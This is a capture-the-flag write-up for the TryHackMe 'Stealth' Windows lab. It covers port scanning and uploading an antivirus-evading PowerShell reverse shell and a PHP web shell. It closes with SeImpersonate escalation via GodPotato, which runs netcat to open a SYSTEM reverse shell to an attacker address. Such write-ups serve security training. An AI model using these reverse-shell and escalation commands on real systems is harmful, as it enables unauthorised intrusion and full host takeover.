 ![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/b9e62339-da5b-4659-b3d8-5a5e445a935f)

https://tryhackme.com/room/stealth

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Enumeration:

I initiated the enumeration process by conducting a thorough scan of ports and services using Rustscan:

```bash
sudo rustscan -a 10.10.133.171 -- -sC -sV -oN result_nmap
```

```Rust
PORT      STATE SERVICE         REASON          VERSION
139/tcp   open  netbios-ssn     syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?   syn-ack ttl 125
3389/tcp  open  ms-wbt-server   syn-ack ttl 125 Microsoft Terminal Services
| ssl-cert: Subject: commonName=HostEvasion
| Issuer: commonName=HostEvasion
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-28T19:06:15
| Not valid after:  2024-01-27T19:06:15
| MD5:   110c 1c21 e230 b7c7 41f5 4b6a bf2b 9e6a
| SHA-1: 34ad 3702 1a0a 2054 88a9 ea0c 820b da64 b1bd fb56
| -----BEGIN CERTIFICATE-----
| MIIC2jCCAcKgAwIBAgIQMIOcafxeh79B5cu+rs/taDANBgkqhkiG9w0BAQsFADAW
| MRQwEgYDVQQDEwtIb3N0RXZhc2lvbjAeFw0yMzA3MjgxOTA2MTVaFw0yNDAxMjcx
| OTA2MTVaMBYxFDASBgNVBAMTC0hvc3RFdmFzaW9uMIIBIjANBgkqhkiG9w0BAQEF
| AAOCAQ8AMIIBCgKCAQEA2tUyXSZT7x2YueFMia0tU6xweBIvbwEXw0MBCXtHEf9A
| LqZ6aiwNSsiLeW/kfBsqw6LArZNajuGggR2uj2HLGMn9Yx2RjnMSUaVWlJnB+j7s
| YsgeVOr3Y8rFv0EPD2M6tKEZ7Zh8HoaBifHR3qeNIx+n6YcYmSjb0mUQ5kQso7SS
| L7a9Beya4aynWgHXegaCVP0CcA750BRf1Ax+tjpojoTJOarC0C1QibbDs0s6NbUY
| Z1CakxCRQlENDRau+vqqhRMxlbEfayl1YICTfMe6j3hMnVeYiPjZECt2nSe92i2p
| rnzpdZ4Xbe8tdDzGETQGkBdOCOKPk6/nh80ifpcjBQIDAQABoyQwIjATBgNVHSUE
| DDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQELBQADggEBABB4
| HKrRnIrik9ef1F3Ah6r4FsdpCmZ0vXLNixsqm8IY81fNcRTogc/WFytU9gylcxRk
| LhoUqXwtQhKqMFOKcEh3Kq2+VMUvgxTxvDywFS4S02AlhWtafq8NBm5nfxxubuit
| tRO3fvdQ7mKS2hWvapW9+guEt0zJZI3Ai/C4NIq5WpbLEGSJe6DHUwXaPyFiHNYy
| 5j91hKUWbDnIy4TqiIPjhBjYhrTvi46fbGbqMpHelUGABzJ5LFfGjORMOWA1bRPz
| wuaEP62Dimr42pzbLPIgGTmBwpIXlpKdcydbJnVORxY4AfpLV6ypt2EPYS2TpKbz
| 4Fw5A8aWrShuerOI7mc=
|_-----END CERTIFICATE-----
|_ssl-date: 2023-12-19T10:20:54+00:00; 0s from scanner time.
8000/tcp  open  http            syn-ack ttl 125 PHP cli server 5.5 or later
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: 404 Not Found
8080/tcp  open  ssl/http-proxy? syn-ack ttl 125
| http-methods: 
|_  Supported Methods: HEAD
|_http-open-proxy: Proxy might be redirecting requests
8443/tcp  open  ssl/http        syn-ack ttl 125 Apache httpd 2.4.56 (OpenSSL/1.1.1t PHP/8.0.28)
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
| SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
| -----BEGIN CERTIFICATE-----
| MIIBnzCCAQgCCQC1x1LJh4G1AzANBgkqhkiG9w0BAQUFADAUMRIwEAYDVQQDEwls
| b2NhbGhvc3QwHhcNMDkxMTEwMjM0ODQ3WhcNMTkxMTA4MjM0ODQ3WjAUMRIwEAYD
| VQQDEwlsb2NhbGhvc3QwgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGBAMEl0yfj
| 7K0Ng2pt51+adRAj4pCdoGOVjx1BmljVnGOMW3OGkHnMw9ajibh1vB6UfHxu463o
| J1wLxgxq+Q8y/rPEehAjBCspKNSq+bMvZhD4p8HNYMRrKFfjZzv3ns1IItw46kgT
| gDpAl1cMRzVGPXFimu5TnWMOZ3ooyaQ0/xntAgMBAAEwDQYJKoZIhvcNAQEFBQAD
| gYEAavHzSWz5umhfb/MnBMa5DL2VNzS+9whmmpsDGEG+uR0kM1W2GQIdVHHJTyFd
| aHXzgVJBQcWTwhp84nvHSiQTDBSaT6cQNQpvag/TaED/SEQpm0VqDFwpfFYuufBL
| vVNbLkKxbK2XwUvu0RxoLdBMC/89HqrZ0ppiONuQ+X2MtxE=
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
47001/tcp open  http            syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc           syn-ack ttl 125 Microsoft Windows RPC
49665/tcp open  msrpc           syn-ack ttl 125 Microsoft Windows RPC
49666/tcp open  msrpc           syn-ack ttl 125 Microsoft Windows RPC
49667/tcp open  msrpc           syn-ack ttl 125 Microsoft Windows RPC
49668/tcp open  msrpc           syn-ack ttl 125 Microsoft Windows RPC
49669/tcp open  msrpc           syn-ack ttl 125 Microsoft Windows RPC
49676/tcp open  msrpc           syn-ack ttl 125 Microsoft Windows RPC
Service Info: Host: www.example.com; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: -1s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 10517/tcp): CLEAN (Timeout)
|   Check 2 (port 63347/tcp): CLEAN (Timeout)
|   Check 3 (port 59578/udp): CLEAN (Timeout)
|   Check 4 (port 62009/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-12-19T10:19:35
|_  start_date: N/A
```

For web enumeration, I explored the open ports 8000, 8080, and 8443, meticulously examining their content and directory structures:

- Port 8000: PHP cli server 5.5

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/cafdd5bc-bae4-4be1-bf66-da6f38bff8f3)

- Port 8080: Powershell script analyzer

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/314a6502-928e-4a40-b362-cb1c248cfd40)

- Port 8443: Powershell script analyzer

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/94563546-d2f6-48f9-a7a6-2e5bd092d66c)

Despite conducting sub-directory enumeration, no valuable information was discovered:

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/9f489d4d-6619-4f9e-a360-ae905016dbd4)

Subsequently, I attempted SMB enumeration with null authentication, but unfortunately, it did not yield any results:Next, I performed SMB enumeration but that didn't worked with null authentication method:

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/d3991535-ccb8-49ca-9d90-63bd6f5f6561)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Initial access:

Given the presence of a PowerShell script analyzer on the target system, I attempted to upload various PowerShell scripts for reverse connection. However, the standard PowerShell scripts proved ineffective. Subsequently, I discovered an older yet effective [PowerShell reverse shell](https://github.com/martinsohn/PowerShell-reverse-shell/blob/main/powershell-reverse-shell.ps1) script that managed to evade antivirus detection.

After uploading and executing this script, I promptly initiated a netcat listener. Soon after, a successful connection was established from the target host:

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/88adbd12-4c0b-4075-91c8-1bc4367725dd)

I gained access to the shell with the username "hostevasion\evader."

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

### User flag:

After gaining initial access, my next objective was to locate the user flag. Navigating to the "C:\Users\evader\Desktop" directory, I discovered a file named "encodedflag."

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/be7228d3-efc6-4bd8-b9a9-750f7e8325e5)

Examining the content of the file, I encountered base64-encoded text:

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/f4c5f367-384a-44b1-807b-8dcf142307ee)

Decoding this content unveiled another URL leading to the flag:

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/e372d250-20ef-4f98-abdc-ccfc2022409e)

Upon accessing this URL, a message was displayed:

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/e74b446e-b59f-4f90-84ac-c8af3becd093)

Following the hint to remove the log file from the uploads directory, I navigated to "C:\xampp\htdocs\uploads" and identified a "log.txt" file:

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/5e196043-a4e3-46b7-bf44-f044c08cfb39)

After removing the log file, I refreshed the URL, revealing the user flag on the webpage: (pwn3d!🙂)

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/8d13e854-e45f-4d00-8b2f-af4b54254e2b)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Privilege escalation:

Upon inspecting the privileges, I noticed a potential restriction, possibly imposed by the PowerShell script executed from the web application. To investigate further, I uploaded a PHP-based [web shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php) into the host, placing it in the "C:\xampp\htdocs" directory.

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/de88543d-59d5-4276-ac44-e09569f87821)

With the newly uploaded web shell, I revisited the privilege check and observed an expanded set of privileges compared to what I obtained from the script analyzer.

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/9e2e398b-002e-40c2-849c-23fabb6accc2)

I re-uploaded the PowerShell script for a reverse connection to my local host. Upon receiving the reverse shell, I verified the privileges and identified the presence of "SeImpersonate" privileges.

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/9a182cf7-6c76-4346-90cf-a34b23ba4896)

Utilizing the SeImpersonate privileges, I employed an exploit from the well-known Potato family [God Potato](https://github.com/BeichenDream/GodPotato) to elevate my privileges.

Executing the following command informed me that I could obtain "Nt Authority" privileges:

```ps
.\GodPotato-NET4.exe -cmd "cmd /c whoami"
```

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/72eb8d16-7e57-4252-9f12-331da58e6ba4)

Combining this exploit with netcat, I uploaded the binary and executed netcat using GodPotato. After starting a netcat listener, I ran GodPotato:

```ps
GodPotato-NET4.exe -cmd "C:\xampp\htdocs\nc.exe 10.X.X.X 1337 -e cmd"
```

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/c56acf19-d922-44e9-b331-db0e53e1d379)

This action promptly resulted in a connection from the NT Authority system. Utilizing this access, I finally obtained the Root flag: (pwn3d!🙂)

![image](https://github.com/F41zK4r1m/TryHackMe/assets/87700008/150db000-cc7f-4936-a206-9210267e6803)


